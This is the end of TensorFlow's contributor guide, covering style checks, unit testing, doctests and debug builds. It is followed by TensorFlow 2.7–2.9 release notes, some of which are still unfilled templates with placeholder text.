* [Java license example](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/java/src/main/java/org/tensorflow/Graph.java#L1)
* [Go license example](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/go/operation.go#L1)
* [Bash license example](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/tools/ci_build/ci_sanity.sh#L2)
* [HTML license example](https://github.com/tensorflow/tensorboard/blob/master/tensorboard/components/tf_backend/tf-backend.html#L2)
* [JavaScript/TypeScript license example](https://github.com/tensorflow/tensorboard/blob/master/tensorboard/components/tf_backend/backend.ts#L1)

Bazel BUILD files also need to include a license section, e.g.,
[BUILD example](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/BUILD#L61).

#### C++ coding style

Changes to TensorFlow C++ code should conform to
[Google C++ Style Guide](https://google.github.io/styleguide/cppguide.html).

Use `clang-tidy` to check your C/C++ changes. To install `clang-tidy` on ubuntu:16.04, do:

```bash
apt-get install -y clang-tidy
```

You can check a C/C++ file by doing:


```bash
clang-format <my_cc_file> --style=google > /tmp/my_cc_file.cc
diff <my_cc_file> /tmp/my_cc_file.cc
```

#### Python coding style

Changes to TensorFlow Python code should conform to
[Google Python Style Guide](https://github.com/google/styleguide/blob/gh-pages/pyguide.md)

Use `pylint` to check your Python changes. To install `pylint` and check a file
with `pylint` against TensorFlow's custom style definition:

```bash
pip install pylint
pylint --rcfile=tensorflow/tools/ci_build/pylintrc myfile.py
```

Note `pylint --rcfile=tensorflow/tools/ci_build/pylintrc` should run from the
top level tensorflow directory.

#### Coding style for other languages

* [Google Java Style Guide](https://google.github.io/styleguide/javaguide.html)
* [Google JavaScript Style Guide](https://google.github.io/styleguide/jsguide.html)
* [Google Shell Style Guide](https://google.github.io/styleguide/shell.xml)
* [Google Objective-C Style Guide](https://google.github.io/styleguide/objcguide.html)

#### Running sanity check

If you have Docker installed on your system, you can perform a sanity check on
your changes by running the command:

```bash
tensorflow/tools/ci_build/ci_build.sh CPU tensorflow/tools/ci_build/ci_sanity.sh
```

This will catch most license, Python coding style and BUILD file issues that
may exist in your changes.

#### Running unit tests

There are two ways to run TensorFlow unit tests.

1.  Using tools and libraries installed directly on your system.

    Refer to the
    [CPU-only developer Dockerfile](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/tools/dockerfiles/dockerfiles/devel-cpu.Dockerfile)
    and
    [GPU developer Dockerfile](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/tools/dockerfiles/dockerfiles/devel-gpu.Dockerfile)
    for the required packages. Alternatively, use the said
    [Docker images](https://hub.docker.com/r/tensorflow/tensorflow/tags/), e.g.,
    `tensorflow/tensorflow:devel` and `tensorflow/tensorflow:devel-gpu` for
    development to avoid installing the packages directly on your system (in
    which case remember to change directory from `/root` to `/tensorflow` once
    you get into the running container so `bazel` can find the `tensorflow`
    workspace).

    Once you have the packages installed, you can run a specific unit test in
    bazel by doing as follows:

    ```bash
    export flags="--config=opt -k"
    ```

    If the tests are to be run on GPU, add CUDA paths to LD_LIBRARY_PATH and add
    the `cuda` option flag

    ```bash
    export LD_LIBRARY_PATH="${LD_LIBRARY_PATH}:/usr/local/cuda/lib64:/usr/local/cuda/extras/CUPTI/lib64:$LD_LIBRARY_PATH"

    export flags="--config=opt --config=cuda -k"
    ```

    For example, to run all tests under tensorflow/python, do:

    ```bash
    bazel test ${flags} //tensorflow/python/...
    ```

    For a single component e.g. softmax op:

    ```bash
    bazel test ${flags} tensorflow/python/kernel_tests:softmax_op_test
    ```

    For a single/parameterized test e.g. `test_capture_variables` in
    `tensorflow/python/saved_model/load_test.py`:

    (Requires `python>=3.7`)

    ```bash
    bazel test ${flags} //tensorflow/python/saved_model:load_test --test_filter=*LoadTest.test_capture_variables*
    ```

    **Note:** You can add `--test_sharding_strategy=disabled` to the `flags` to
    disable the sharding so that all the test outputs are in one file. However,
    it may slow down the tests for not running in parallel and may cause the
    test to timeout but it could be useful when you need to execute a single
    test or more in general your filtered/selected tests have a very low
    execution time and the sharding
    [could create an overhead on the test execution](https://github.com/bazelbuild/bazel/issues/2113#issuecomment-264054799).

2.  Using [Docker](https://www.docker.com) and TensorFlow's CI scripts.

    ```bash
    # Install Docker first, then this will build and run cpu tests
    tensorflow/tools/ci_build/ci_build.sh CPU bazel test //tensorflow/...
    ```

    See
    [TensorFlow Builds](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/tools/ci_build)
    for details.

#### Running doctest for testable docstring

There are two ways to test the code in the docstring locally:

1.  If you are only changing the docstring of a class/function/method, then you
    can test it by passing that file's path to
    [tf_doctest.py](https://www.tensorflow.org/code/tensorflow/tools/docs/tf_doctest.py).
    For example:

    ```bash
    python tf_doctest.py --file=<file_path>
    ```

    This will run it using your installed version of TensorFlow. To be sure
    you're running the same code that you're testing:

    *   Use an up to date [tf-nightly](https://pypi.org/project/tf-nightly/)
        `pip install -U tf-nightly`
    *   Rebase your pull request onto a recent pull from
        [TensorFlow's](https://github.com/tensorflow/tensorflow) master branch.

2.  If you are changing the code and the docstring of a class/function/method,
    then you will need to
    [build TensorFlow from source](https://www.tensorflow.org/install/source).
    Once you are setup to build from source, you can run the tests:

    ```bash
    bazel run //tensorflow/tools/docs:tf_doctest
    ```

    or

    ```bash
    bazel run //tensorflow/tools/docs:tf_doctest -- --module=ops.array_ops
    ```

    The `--module` is relative to `tensorflow.python`.

#### Debug builds

When [building Tensorflow](https://www.tensorflow.org/install/source), passing
`--config=dbg` to Bazel will build with debugging information and without
optimizations, allowing you to use GDB or other debuggers to debug C++ code. For
example, you can build the pip package with debugging information by running:

```bash
bazel build --config=dbg //tensorflow/tools/pip_package:build_pip_package
```

TensorFlow kernels and TensorFlow's dependencies are still not built with
debugging information with `--config=dbg`, as issues occur on Linux if
there is too much debug info (see [this GitHub
issue](https://github.com/tensorflow/tensorflow/issues/48919) for context). If
you want to debug a kernel, you can compile specific files with `-g` using the
`--per_file_copt` bazel option. For example, if you want to debug the Identity
op, which are in files starting with `identity_op`, you can run

```bash
bazel build --config=dbg --per_file_copt=+tensorflow/core/kernels/identity_op.*@-g //tensorflow/tools/pip_package:build_pip_package
```

Note that the `--config=dbg` option is not officially supported.
# Release 2.9.0

<INSERT SMALL BLURB ABOUT RELEASE FOCUS AREA AND POTENTIAL TOOLCHAIN CHANGES>

# Breaking Changes

* <DOCUMENT BREAKING CHANGES HERE>
* <THIS SECTION SHOULD CONTAIN API, ABI AND BEHAVIORAL BREAKING CHANGES>

# Known Caveats

* <CAVEATS REGARDING THE RELEASE (BUT NOT BREAKING CHANGES).>
* <ADDING/BUMPING DEPENDENCIES SHOULD GO HERE>
* <KNOWN LACK OF SUPPORT ON SOME PLATFORM, SHOULD GO HERE>

# Major Features and Improvements

* `tf.keras`:

  * Added `tf.keras.optimizers.experimental.Optimizer`. The reworked
    optimizer gives more control over different phases of optimizer calls,
    and is easier to customize. We provide Adam, SGD, Adadelta, AdaGrad and
    RMSprop optimizers based on `tf.keras.optimizers.experimental.Optimizer`.
    Generally the new optimizers work in the same way as the old ones,
    but support new constructor arguments. In the future,
    the symbols `tf.keras.optimizers.Optimizer`/`Adam`/etc will point
    to the new optimizers, and the previous generation of optimizers will
    be moved to `tf.keras.optimizers.legacy.Optimizer`/`Adam`/etc.
  * Added L2 unit normalization layer `tf.keras.layers.UnitNormalization`.
  * Added APIs for switching between interactive logging and absl logging.
    By default, Keras always writes the logs to stdout. However, this is not
    optimal in a non-interactive environment, where you don't have
    access to stdout, but can only view the logs. You can use
    `tf.keras.utils.disable_interactive_logging()` to write the logs to absl
    logging. You can also use `tf.keras.utils.enable_interactive_logging()`
    to change it back to stdout, or
    `tf.keras.utils.is_interactive_logging_enabled()` to check if interactive
    logging is enabled.
  * Changed default value for the `verbose` argument of `Model.evaluate()` and
    `Model.predict()` to `"auto"`, which defaults to `verbose=1` for most cases
    and defaults to `verbose=2` when used with `ParameterServerStrategy` or with
    interactive logging disabled.

* `tf.lite`:

  * Added TFLite builtin op support for the following TF ops:
    * `tf.math.argmin`/`tf.math.argmax` for input data type `tf.bool` on CPU.
    * `tf.nn.gelu` op for output data type `tf.float32` and quantization on CPU.

# Bug Fixes and Other Changes

* <SIMILAR TO ABOVE SECTION, BUT FOR OTHER IMPORTANT CHANGES / BUG FIXES>
* <IF A CHANGE CLOSES A GITHUB ISSUE, IT SHOULD BE DOCUMENTED HERE>
* <NOTES SHOULD BE GROUPED PER AREA>

# Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

<INSERT>, <NAME>, <HERE>, <USING>, <GITHUB>, <HANDLE>


# Release 2.8.0

<INSERT SMALL BLURB ABOUT RELEASE FOCUS AREA AND POTENTIAL TOOLCHAIN CHANGES>

# Breaking Changes

* <DOCUMENT BREAKING CHANGES HERE>
* <THIS SECTION SHOULD CONTAIN API, ABI AND BEHAVIORAL BREAKING CHANGES>

# Known Caveats

* <CAVEATS REGARDING THE RELEASE (BUT NOT BREAKING CHANGES).>
* <ADDING/BUMPING DEPENDENCIES SHOULD GO HERE>
* <KNOWN LACK OF SUPPORT ON SOME PLATFORM, SHOULD GO HERE>

# Major Features and Improvements

*   `tf.lite`:
    *   Added TFLite builtin op support for the following TF ops:
        *   `tf.raw_ops.Bucketize` op on CPU.
        *   `tf.where` op for data types
            `tf.int32`/`tf.uint32`/`tf.int8`/`tf.uint8`/`tf.int64`.
        *   `tf.random.normal` op for output data type `tf.float32` on CPU.
        *   `tf.random.uniform` op for output data type `tf.float32` on CPU.
        *   `tf.random.categorical` op for output data type `tf.int64` on CPU.
*   `tensorflow.experimental.tensorrt`:

    *   `conversion_params` is now deprecated inside `TrtGraphConverterV2` in
        favor of direct arguments: `max_workspace_size_bytes`, `precision_mode`,
        `minimum_segment_size`, `maximum_cached_engines`, `use_calibration` and
        `allow_build_at_runtime`.
    *   Added a new parameter called `save_gpu_specific_engines` to the
        `.save()` function inside `TrtGraphConverterV2`. When `False`, the
        `.save()` function won't save any TRT engines that have been built. When
        `True` (default), the original behavior is preserved.
    *   `TrtGraphConverterV2` provides a new API called `.summary()` which
        outputs a summary of the inference converted by TF-TRT. It namely shows
        each TRTEngineOp with their input(s)' and output(s)' shape and dtype. A
        detailed version of the summary is available which prints additionally
        all the TensorFlow OPs included in each of the TRTEngineOPs.

*   `tf.tpu.experimental.embedding`:

    *   `tf.tpu.experimental.embedding.FeatureConfig` now takes an additional
        argument `output_shape` which can specify the shape of the output
        activation for the feature.
    *   `tf.tpu.experimental.embedding.TPUEmbedding` now has the same behavior
        as `tf.tpu.experimental.embedding.serving_embedding_lookup` which can
        take arbitrary rank of dense and sparse tensor. For ragged tensor,
        though the input tensor remains to be rank 2, the activations now can be
        rank 2 or above by specifying the output shape in the feature config or
        via the build method.

*   Add
    [`tf.config.experimental.enable_op_determinism`](https://www.tensorflow.org/api_docs/python/tf/config/experimental/enable_op_determinism),
    which makes TensorFlow ops run deterministically at the cost of performance.
    Replaces the `TF_DETERMINISTIC_OPS` environmental variable, which is now
    deprecated.

    *   The "Bug Fixes and Other Changes" section lists more determinism-related
        changes.
*   <INSERT MAJOR FEATURE HERE, USING MARKDOWN SYNTAX>

*   <IF RELEASE CONTAINS MULTIPLE FEATURES FROM SAME AREA, GROUP THEM TOGETHER>

# Bug Fixes and Other Changes

*   <SIMILAR TO ABOVE SECTION, BUT FOR OTHER IMPORTANT CHANGES / BUG FIXES>
*   <IF A CHANGE CLOSES A GITHUB ISSUE, IT SHOULD BE DOCUMENTED HERE>
*   <NOTES SHOULD BE GROUPED PER AREA>
*   `tf.data`:

    *   The optimization `parallel_batch` now becomes default if not disabled by
        users, which will parallelize copying of batch elements.
    *   Added the ability for `TensorSliceDataset` to identify and handle inputs
        that are files. This enables creating hermetic SavedModels when using
        datasets created from files.

*   `tf.lite`:

    *   GPU
    *   Adds GPU Delegation support for serialization to Java API. This boosts
        initialization time upto 90% when OpenCL is available.
    *   Deprecated `Interpreter::SetNumThreads`, in favor of
        `InterpreterBuilder::SetNumThreads`.

*   Adds `tf.compat.v1.keras.utils.get_or_create_layer` to aid migration to TF2
    by enabling tracking of nested keras models created in TF1-style, when used
    with the `tf.compat.v1.keras.utils.track_tf1_style_variables` decorator.

*   `tf.keras`:

    *   Preprocessing Layers
    *   Added a `tf.keras.layers.experimental.preprocessing.HashedCrossing`
        layer which applies the hashing trick to the concatenation of crossed
        scalar inputs. This provides a stateless way to try adding feature
        crosses of integer or string data to a model.
    *   Removed `keras.layers.experimental.preprocessing.CategoryCrossing`.
        Users should migrate to the `HashedCrossing` layer or use
        `tf.sparse.cross`/`tf.ragged.cross` directly.
    *   Added additional `standardize` and `split` modes to `TextVectorization`.
        *   `standardize="lower"` will lowercase inputs.
        *   `standardize="string_punctuation"` will remove all puncuation.
        *   `split="character"` will split on every unicode character.
    *   Added an `output_mode` argument to the `Discretization` and `Hashing`
        layers with the same semantics as other preprocessing layers. All
        categorical preprocessing layers now support `output_mode`.
    *   All preprocessing layer output will follow the compute dtype of a
        `tf.keras.mixed_precision.Policy`, unless constructed with
        `output_mode="int"` in which case output will be `tf.int64`. The output
        type of any preprocessing layer can be controlled individually by
        passing a `dtype` argument to the layer.
    *   `tf.random.Generator` for keras initializers and all RNG code.
    *   Added 3 new APIs for enable/disable/check the usage of
        `tf.random.Generator` in keras backend, which will be the new backend
        for all the RNG in Keras. We plan to switch on the new code path by
        default in tf 2.8, and the behavior change will likely to cause some
        breakage on user side (eg if the test is checking against some golden
        nubmer). These 3 APIs will allow user to disable and switch back to
        legacy behavior if they prefer. In future (eg tf 2.10), we expect to
        totally remove the legacy code path (stateful random Ops), and these 3
        APIs will be removed as well.
    *   `tf.keras.callbacks.experimental.BackupAndRestore` is now available as
        `tf.keras.callbacks.BackupAndRestore`. The experimental endpoint is
        deprecated and will be removed in a future release.
    *   `tf.keras.experimental.SidecarEvaluator` is now available as
        `tf.keras.utils.SidecarEvaluator`. The experimental endpoint is
        deprecated and will be removed in a future release.
    *   Metrics update and collection logic in default `Model.train_step()` is
        now customizable via overriding `Model.compute_metrics()`.
    *   Losses computation logic in default `Model.train_step()` is now
        customizable via overriding `Model.compute_loss()`.
    *   `jit_compile` added to `Model.compile()` on an opt-in basis to compile
        the model's training step with [XLA](https://www.tensorflow.org/xla).
        Note that `jit_compile=True` may not necessarily work for all models.

*   TF Core:

    *   Adding a flag `stateful` to `numpy_function`, allowing to give the
        guarantee to the runtime that the function call is stateless, which
        allows for more optimizations in the graph.

*   Deterministic Op Functionality

    *   Add determinsitic GPU implementations of:
    *   `tf.function(jit_compile=True)`'s that use `Scatter`.
    *   (since v2.7) Stateful ops used in `tf.data.Dataset`
    *   (since v2.7) `tf.convert_to_tensor` when fed with (sparse)
        `tf.IndexedSlices` (because it uses `tf.math.unsorted_segment_sum`)
    *   (since v2.7) `tf.gather` backprop (because `tf.convert_to_tensor`
        reduces `tf.gather`'s (sparse) `tf.IndexedSlices` gradients into its
        dense `params` input)
    *   (since v2.7) `tf.math.segment_mean`
    *   (since v2.7) `tf.math.segment_prod`
    *   (since v2.7) `tf.math.segment_sum`
    *   (since v2.7) `tf.math.unsorted_segment_mean`
    *   (since v2.7) `tf.math.unsorted_segment_prod`
    *   (since v2.7) `tf.math.unsorted_segment_sum`
    *   (since v2.7) `tf.math.unsorted_segment_sqrt`
    *   (since v2.7) `tf.nn.ctc_loss` (resolved, possibly in prior release, and
        confirmed with tests)
    *   (since v2.7)`tf.nn.sparse_softmax_crossentropy_with_logits`
    *   (since v2.7) Run the following ops on CPU (with significant performance
        penalty):
    *   `tf.scatter_nd` and other related scatter functions, such as
        `tf.tensor_scatter_nd_update`
    *   Add determinism-unimplemented exception-throwing to the following ops.
        When op-determinism is expected (i.e. after
        `tf.config.experimental.enable_op_determinism` has been called), an
        attempt to use the specified paths through the following ops on a GPU
        will cause `tf.errors.UnimplementedError` (with an understandable
        message), unless otherwise specified, to be thrown.
    *   `FakeQuantWithMinMaxVarsGradient` and
        `FakeQuantWithMinMaxVarsPerChannelGradient`
    *   (since v2.7) `tf.compat.v1.get_seed` if the global random seed has not
        yet been set (via `tf.random.set_seed`). Throws `RuntimeError` from
        Python or `InvalidArgument` from C++
    *   (since v2.7) `tf.compat.v1.nn.fused_batch_norm` backprop to `offset`
        when `is_training=False`
    *   (since v2.7) `tf.image.adjust_contrast` forward
    *   (since v2.7) `tf.image.resize` with `method=ResizeMethod.NEAREST`
        backprop
    *   (since v2.7) `tf.linalg.svd`
    *   (since v2.7) `tf.math.bincount`
    *   (since v2.7) `tf.nn.depthwise_conv2d` backprop to `filter` when not
        using cuDNN convolution
    *   (since v2.7) `tf.nn.dilation2d` gradient
    *   (since v2.7) `tf.nn.max_pool_with_argmax` gradient
    *   (since v2.7) `tf.raw_ops.DebugNumericSummary` and
        `tf.raw_ops.DebugNumericSummaryV2`
    *   (since v2.7) `tf.timestamp`. Throws `FailedPrecondition`
    *   (since v2.7) `tf.Variable.scatter_add` (and other scatter methods, both
        on ref and resource variables)
    *   (since v2.7) The random-number-generating ops in the `tf.random` module
        when the global random seed has not yet been set (via
        `tf.random.set_seed`). Throws `RuntimeError` from Python or
        `InvalidArgument` from C++

# Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

jonas-eschle, <INSERT>, <NAME>, <HERE>, <USING>, <GITHUB>, <HANDLE>

# Release 2.7.0

## Breaking Changes

* `tf.keras`:
  * The methods `Model.fit()`, `Model.predict()`, and `Model.evaluate()` will no longer uprank input data of shape `(batch_size,)` to become `(batch_size, 1)`. This enables `Model` subclasses to process scalar data in their `train_step()`/`test_step()`/`predict_step()` methods.  
    Note that this change may break certain subclassed models. You can revert back to the previous behavior by adding upranking yourself in the `train_step()`/`test_step()`/`predict_step()` methods, e.g. `if x.shape.rank == 1: x = tf.expand_dims(x, axis=-1)`. Functional models as well as Sequential models built with an explicit input shape are not affected.
  * The methods `Model.to_yaml()` and `keras.models.model_from_yaml` have been replaced to raise a `RuntimeError` as they can be abused to cause arbitrary code execution. It is recommended to use JSON serialization instead of YAML, or, a better alternative, serialize to H5.
  * `LinearModel` and `WideDeepModel` are moved to the `tf.compat.v1.keras.models.` namespace (`tf.compat.v1.keras.models.LinearModel` and `tf.compat.v1.keras.models.WideDeepModel`), and their `experimental` endpoints (`tf.keras.experimental.models.LinearModel` and `tf.keras.experimental.models.WideDeepModel`) are being deprecated.
  * RNG behavior change for all `tf.keras.initializers` classes. For any class constructed with a fixed seed, it will no longer generate same value when invoked multiple times. Instead, it will return different value, but a determinisitic sequence. This change will make the initialize behavior align between v1 and v2.

* `tf.lite`:
  * Rename fields `SignatureDef` table in schema to maximize the parity with TF SavedModel's Signature concept.
  * Deprecate Makefile builds. Makefile users need to migrate their builds to CMake or Bazel. Please refer to the [Build TensorFlow Lite with CMake](https://www.tensorflow.org/lite/guide/build_cmake) and [Build TensorFlow Lite for ARM boards](https://www.tensorflow.org/lite/guide/build_arm) for the migration.
  * Deprecate `tflite::OpResolver::GetDelegates`. The list returned by TfLite's `BuiltinOpResolver::GetDelegates` is now always empty. Instead, recommend using new method `tflite::OpResolver::GetDelegateCreators` in order to achieve lazy initialization on TfLite delegate instances.

* TF Core:
    *   `tf.Graph.get_name_scope()` now always returns a string, as documented. Previously, when called within `name_scope("")` or `name_scope(None)` contexts, it returned `None`; now it returns the empty string.
    *   `tensorflow/core/ir/` contains a new MLIR-based Graph dialect that is isomorphic to GraphDef and will be used to replace GraphDef-based (e.g., Grappler) optimizations.
    *   Deprecated and removed `attrs()` function in shape inference. All attributes should be queried by name now (rather than range returned) to enable changing the underlying storage there.
    *   The following Python symbols were accidentally added in earlier versions of TensorFlow and now are removed. Each symbol has a replacement that should be used instead, but note the replacement's argument names are different.
        * `tf.quantize_and_dequantize_v4` (accidentally introduced in TensorFlow 2.4): Use `tf.quantization.quantize_and_dequantize_v2` instead.
        * `tf.batch_mat_mul_v3` (accidentally introduced in TensorFlow 2.6): Use `tf.linalg.matmul` instead.
        * `tf.sparse_segment_sum_grad` (accidentally introduced in TensorFlow 2.6): Use `tf.raw_ops.SparseSegmentSumGrad` instead. Directly calling this op is typically not necessary, as it is automatically used when computing the gradient of `tf.sparse.segment_sum`.
    *   Renaming of tensorflow::int64 to int_64_t in numerous places (the former is an alias for the latter) which could result in needing to regenerate selective op registration headers else execution would fail with unregistered kernels error.

* Modular File System Migration:
    *   Support for S3 and HDFS file systems has been migrated to a modular file systems based approach and is now available in https://github.com/tensorflow/io. The `tensorflow-io` python package should be installed for S3 and HDFS support with tensorflow.

## Major Features and Improvements

* Improvements to the TensorFlow debugging experience:
  * Previously, TensorFlow error stack traces involved many internal frames, which could be challenging to read through, while not being actionable for end users. As of TF 2.7, TensorFlow filters internal frames in most errors that it raises, to keep stack traces short, readable, and focused on what's actionable for end users (their own code).

    This behavior can be disabled by calling `tf.debugging.disable_traceback_filtering()`, and can be re-enabled via `tf.debugging.enable_traceback_filtering()`. If you are debugging a TensorFlow-internal issue (e.g. to prepare a TensorFlow PR), make sure to disable traceback filtering. You can check whether this feature is currently enabled by calling `tf.debugging.is_traceback_filtering_enabled()`.

    Note that this feature is only available with Python 3.7 or higher.

  * Improve the informativeness of error messages raised by Keras `Layer.__call__()`, by adding the full list of argument values passed to the layer in every exception.

*  Introduce the `tf.compat.v1.keras.utils.track_tf1_style_variables` decorator, which enables using large classes of tf1-style variable_scope, `get_variable`, and `compat.v1.layer`-based components from within TF2 models running with TF2 behavior enabled.

*  `tf.data`:
    *   tf.data service now supports auto-sharding. Users specify the sharding policy with `tf.data.experimental.service.ShardingPolicy` enum. It can be one of `OFF` (equivalent to today's `"parallel_epochs"` mode), `DYNAMIC` (equivalent to today's `"distributed_epoch"` mode), or one of the static sharding policies: `FILE`, `DATA`, `FILE_OR_DATA`, or `HINT` (corresponding to values of `tf.data.experimental.AutoShardPolicy`).

        Static sharding (auto-sharding) requires the number of tf.data service workers be fixed. Users need to specify the worker addresses in `tensorflow.data.experimental.DispatcherConfig`.
    *   `tf.data.experimental.service.register_dataset` now accepts optional `compression` argument.

*  Keras:
    *  `tf.keras.layers.Conv` now includes a public `convolution_op` method. This method can be used to simplify the implementation of Conv subclasses. There are two primary ways to use this new method.  The first is to use the method directly in your own `call` method:
        ```python
          class StandardizedConv2D(tf.keras.layers.Conv2D):
            def call(self, inputs):
              mean, var = tf.nn.moments(self.kernel, axes=[0, 1, 2], keepdims=True)
              return self.convolution_op(inputs, (self.kernel - mean) / tf.sqrt(var + 1e-10))
        ```
        Alternatively, you can override `convolution_op`:
        ```python
          class StandardizedConv2D(tf.keras.Layer):
            def convolution_op(self, inputs, kernel):
              mean, var = tf.nn.moments(kernel, axes=[0, 1, 2], keepdims=True)
              # Author code uses std + 1e-5
              return super().convolution_op(inputs, (kernel - mean) / tf.sqrt(var + 1e-10))
        ```
    * Added `merge_state()` method to `tf.keras.metrics.Metric` for use in distributed computations.
    * Added `sparse` and `ragged` options to `tf.keras.layers.TextVectorization` to allow for `SparseTensor` and `RaggedTensor` outputs from the layer.
*  distribute.experimental.rpc package:
   * distribute.experimental.rpc package introduces APIs to create a GRPC based server to register tf.function methods and a GRPC client to invoke remote registered methods. RPC APIs are intended for multi-client setups i.e. server and clients are started in separate binaries independently.

   * Example usage to create server:
     ```python
        server = tf.distribute.experimental.rpc.Server.create("grpc", 
                "127.0.0.1:1234")
        @tf.function(input_signature=[
          tf.TensorSpec([], tf.int32),
          tf.TensorSpec([], dtypes.int32)
        ])
        def _remote_multiply(a, b):
          return tf.math.multiply(a, b)

        server.register("multiply", _remote_multiply)
     ```
    * Example usage to create client:
      ```python
      client = tf.distribute.experimental.rpc.Client.create("grpc", address)
      a = tf.constant(2, dtype=tf.int32)
      b = tf.constant(3, dtype=tf.int32)
      result = client.multiply(a, b)
      ```
* `tf.lite`:
  * Add experimental API `experimental_from_jax` to support conversion from Jax models to TensorFlow Lite.
  * Support uint32 data type for cast op.
  * Support int8 data type for cast op.
  * Add experimental quantization debugger `tf.lite.QuantizationDebugger`
  * Add lite.experimental.authoring.compatible API
      *   A Python decorator to provide a way to check TFLite compatibility
          issue of `tf.function`. This returns a callable object which
          validates TFLite compatibility. If an incompatible operation is
          encountered during execution, an exception will be raised with
          information about the incompatible ops.
  * Add lite.experimental.Analyzer API
      *   An experimental tool to analyze TFLite flatbuffer models. This API
          can be used to investigate TFLite model structure and check
          compatibility with GPU delegate.

* Extension Types
  * Add experimental API to define new Python classes that can be handled by TensorFlow APIs. To create an extension type, simply define a Python class with `tf.experimental.ExtensionType` as its base, and use type annotations to specify the type for each field.  E.g.:
    ```python
    class MaskedTensor(tf.experimental.ExtensionType):
      values: tf.Tensor
      mask: tf.Tensor
    ```
    The `tf.ExtensionType` base class works similarly to [`typing.NamedTuple`](https://docs.python.org/3/library/typing.html#typing.NamedTuple) and [`@dataclasses.dataclass`](https://docs.python.org/3/library/dataclasses.html#dataclasses.dataclass) from the standard Python library.
  * Extension types are supported by Keras, tf.data, TF-hub, SavedModel, tf.function, control flow ops, py_function, and distribution strategy.
  * Add "dispatch decorators" that can be used to override the default behavior of TensorFlow ops (such as `tf.add` or `tf.concat`) when they are applied to ExtensionType values.
  * The `BatchableExtensionType` API can be used to define extension types that support APIs that make use of batching, such as `tf.data.Dataset` and `tf.map_fn`.
  * For more information, see the [Extension types guide](https://www.tensorflow.org/guide/extension_type).

## Bug Fixes and Other Changes
 
*   TF Core:
    * Random number generation (RNG) system
        *   Add argument `alg` to `tf.random.stateless_*` functions to  explicitly select the RNG algorithm.
        *   Add `tf.nn.experimental.stateless_dropout`, a stateless version of `tf.nn.dropout`.
        *   `tf.random.Generator` now can be created inside the scope of `tf.distribute.experimental.ParameterServerStrategy` and  `tf.distribute.experimental.CentralStorageStrategy`.
    * Add an experimental session config `tf.experimental.disable_functional_ops_lowering` which disables functional control flow op lowering optimization. This is useful when executing within a portable runtime where control flow op kernels may not be loaded due to selective registration.
    * Add a new experimental argument `experimental_is_anonymous` to `tf.lookup.StaticHashTable.__init__` to create the table in anonymous mode. In this mode, the table resource can only be accessed via resource handles (not resource names) and will be deleted automatically when all resource handles pointing to it are gone.
*   `tf.data`:
    *   Introduce the `tf.data.experimental.at` API which provides random access for input pipelines that consist of transformations that support random access. The initial set of transformations that support random access includes: `tf.data.Dataset.from_tensor_slices`,`tf.data.Dataset.shuffle`, `tf.data.Dataset.batch`, `tf.data.Dataset.shard`, `tf.data.Dataset.map`, and `tf.data.Dataset.range`.
    *   Promote `tf.data.Options.experimental_deterministic` API to `tf.data.Options.deterministic` and deprecate the experimental endpoint.
    *   Move autotuning options from`tf.data.Options.experimental_optimization.autotune*` to a newly created `tf.data.Options.autotune.*` and remove support for `tf.data.Options.experimental_optimization.autotune_buffers`.
    *   Add support for user-defined names of tf.data core Python API, which can be used to disambiguate tf.data events in TF Profiler Trace Viewer.
    *   Promote `tf.data.experimental.sample_from_datasets` API to `tf.data.Dataset.sample_from_datasets` and deprecate the experimental endpoint.
    *   Added `TF_GPU_ALLOCATOR=cuda_malloc_async` that use cudaMallocAsync from CUDA 11.2. This could become the default in the future.
*   TF SavedModel:
    *   Custom gradients are now saved by default. See `tf.saved_model.SaveOptions` to disable this.
    *   The saved_model_cli's `--input_examples` inputs are now restricted to
        python literals to avoid code injection.
*   XLA:
    * Add a new API that allows custom call functions to signal errors. The old API will be deprecated in a future release. See https://www.tensorflow.org/xla/custom_call for details.
    * XLA:GPU reductions are deterministic by default (reductions within `jit_compile=True` are now deterministic).
    * XLA:GPU works with Horovod (OSS contribution by Trent Lo from NVidia)
    * XLA:CPU and XLA:GPU can compile tf.unique and tf.where when shapes are
      provably correct at compile time.
*   `tf.saved_model.save`:
    *   When saving a model, not specifying a namespace whitelist for custom ops with a namespace will now default to allowing rather than rejecting them all.
* Deterministic Op Functionality (enabled by setting the environment variable `TF_DETERMINISTIC_OPS` to `"true"` or `"1"`):
    *   Add determinsitic GPU implementations of:
        * `tf.math.segment_sum`
        * `tf.math.segment_prod`
        * `tf.math.segment_mean`
        * `tf.math.unsorted_segment_sum`
        * `tf.math.unsorted_segment_prod`
        * `tf.math.unsorted_segment_sqrt`
        * `tf.math.unsorted_segment_mean`
        * `tf.gather` backprop
        * `tf.convert_to_tensor` when fed with (sparse) `tf.IndexedSlices`
        * `tf.nn.sparse_softmax_crossentropy_with_logits`
        * `tf.nn.ctc_loss` (resolved, possibly in prior release, and confirmed with tests)
        * stateful ops used in `tf.data.Dataset`
    *   Run the following ops on CPU (with significant performance penalty):
        * `tf.scatter_nd` and other related scatter functions, such as `tf.tensor_scatter_nd_update`
    *   Add determinism-unimplemented exception-throwing to the following ops. When op-determinism is expected (i.e. when the environment variable `TF_DETERMINISTIC_OPS` is set to `"true"` or `"1"`), an attempt to use the specified paths through the following ops on a GPU will cause `tf.errors.UnimplementedError` (with an understandable message), unless otherwise specified, to be thrown.
        * `tf.compat.v1.nn.fused_batch_norm` backprop to `offset` when `is_training=False`
        * `tf.image.adjust_contrast` forward
        * `tf.nn.depthwise_conv2d` backprop to `filter` when not using cuDNN convolution
        * `tf.image.resize` with `method=ResizeMethod.NEAREST` backprop
        * `tf.math.bincount` - TODO: confirm exception added
        * `tf.raw_ops.DebugNumericSummary` and `tf.raw_ops.DebugNumericSummaryV2`
        * `tf.Variable.scatter_add` (and other scatter methods, both on ref and resource variables)
        * `tf.linalg.svd`
        * `tf.nn.dilation2d` gradient
        * `tf.nn.max_pool_with_argmax` gradient
        * `tf.timestamp`. Throws `FailedPrecondition`
        * The random-number-generating ops in the `tf.random` module when the global random seed has not yet been set (via `tf.random.set_seed`). Throws `RuntimeError` from Python or `InvalidArgument` from C++
